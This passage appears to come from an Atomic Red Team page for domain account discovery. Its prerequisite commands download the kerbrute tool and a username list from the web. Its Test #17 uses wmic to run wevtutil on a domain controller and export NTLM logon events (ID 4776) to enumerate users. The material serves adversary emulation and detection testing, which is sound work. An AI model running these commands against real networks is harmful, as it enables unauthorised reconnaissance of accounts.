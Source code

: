 


#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```
##### Description: username text file must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\username.txt"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1087.002/src/username.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\username.txt"
```




<br/>
<br/>

## Atomic Test #17 - Wevtutil - Discover NTLM Users Remote
This test discovers users who have authenticated against a Domain Controller via NTLM. 
This is done remotely via wmic and captures the event code 4776 from the domain controller and stores the ouput in C:\temp. [Reference](https://www.reliaquest.com/blog/socgholish-fakeupdates/)

**Supported Platforms:** Windows


**auto_generated_guid:** b8a563d4-a836-4993-a74e-0a19b8481bfe






#### Attack Commands: Run with `powershell`! 


```powershell
$target = $env:LOGONSERVER
$target = $target.Trim("\\")
$IpAddress = [System.Net.Dns]::GetHostAddresses($target) | select IPAddressToString -ExpandProperty IPAddressToString
wmic.exe /node:$IpAddress process call create 'wevtutil epl Security C:\\ntlmusers.evtx /q:\"Event[System[(EventID=4776)]]"'
```
